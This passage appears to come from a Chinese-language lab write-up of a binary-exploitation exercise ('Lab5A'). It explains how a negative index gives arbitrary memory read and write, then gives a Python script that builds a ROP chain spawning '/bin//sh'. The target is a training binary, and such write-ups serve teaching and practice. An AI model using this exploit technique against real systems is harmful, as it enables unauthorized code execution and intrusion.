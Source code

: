 即可轻松完成：

![][3]

## Lab5A

此题似曾相识，read_number可以实现任意地址读，store_number虽然现实了index不能大于100，但index为int类型，输入为负数照样可以实现任意地址写。静态编译还是需要自己构造ROP Chain。

因为写地址的过程会多次调用函数，栈上的一些地址可能被覆盖改变，所以最终调转至data数组中的地址去ROP比较保险。调试可知store的栈上ret的地址和data+1相差44字节，返回地址覆盖为`add esp 44; ret`即可。

还是需要面对ebx的问题，要知道data的地址，通过调试可知read_number参数地址和data地址相差-40，index为-10即可泄露：

![][4]

ROP Chain的构造思路和上一题类似，脚本如下：

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

# pop ebx; pop esi; ret
# 0xbfxxxxxx
# 0x00000000
# xor eax, eax; ret
# pop ecx; ret
# 0x00000000
# inc eax; ret 
# pop edx; ret
# 0x00000000

rop = {"1": "0x0805c003", "2": "0xbfffef54", \
       "4": "0x08055620", "5": "0x080e5d41", \
       "7": "0x080e8cf3", "8": "0x0806f38a"}

# inc eax; ret
# pop edi; ret
# 0x00000000

i = 9
for _ in xrange(10):
    rop[str(i+1)] = "0x080e8cf3"
    rop[str(i+2)] = "0x08066202"
    i += 3

# int 0x80; ret

rop["40"] = "0x0806fa60"

# /bin//sh

rop["43"] = "0x6e69622f"
rop["44"] = "0x68732f2f"

exp = ""
for k, v in rop.items():
    exp += "store\n%s\n%s\n" % (str(int(v, 16)), str(k))

# add esp 44; ret

exp += "store\n%s\n%s\n" % (str(int("0x08048b1e", 16)), str("-11"))

print repr(exp)
```


[1]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8c7x50j20k6053dgl.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8daxttj20k40a20tv.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8e2x3dj20k104nq3g.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8f79unj20k104hjri.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fpbl8gmrlqj20k105gq3i.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8hjp4zj20py08jq3g.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8i9zycj20i30410t3.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8jbdu4j20kd09dwem.jpg
[9]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8l9yv1j20iu05ct8p.jpg
[10]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8m2y7sj20le093aao.jpg